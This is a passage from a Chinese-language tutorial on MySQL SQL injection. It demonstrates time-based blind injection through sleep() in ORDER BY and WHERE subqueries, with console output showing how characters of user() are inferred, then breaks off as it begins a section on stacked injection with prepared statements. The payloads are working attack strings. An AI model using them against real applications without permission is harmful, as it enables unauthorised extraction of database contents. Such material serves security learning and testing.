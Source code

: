 

```plain
# 错误的情况
# 页面会延迟2秒

mysql> select * from tttt ORDER BY id-(select 1 from (select case when (user() like 'aaaa%') then 1 else sleep(2) end)x);
Empty set (2.00 sec)
```

# 0x05 注入点 where 处构造子查询延迟注入出 user()


user() = root@localhost



使用方式：select * from tttt WHERE id=1 and (select 1 from (select case when (**payload** like 'r%') then 1 else sleep(2) end)x);



```plain
# 对的情况
# 页面会很快的返回数据
# 说明 user() 第1-4位字符为 root

mysql> select * from tttt where id=1 and (select 1 from (select case when (user() like 'root%') then 1 else sleep(2) end)x);
Empty set (0.00 sec)
# 错误的情况
# 页面会延迟2秒

mysql> select * from tttt where id=1 and (select 1 from (select case when (user() like 'aaaa%') then 1 else sleep(2) end)x);
Empty set (2.00 sec)
```

# 十三、堆叠注入-预处理语句注入办法

# 0x01 注意点

要能支持堆叠,如果不能堆叠无法使用

# 0x02 语法学习

这个好麻烦啊,我就直接抄了,参考文章下面有原文链接

MySQL官方将prepare、execute、deallocate统称为PREPARE STATEMENT

我们就称之为预处理语句,其用法十分简单,来一起看看详细的介绍进行学习把

## 0x02.1 示例代码
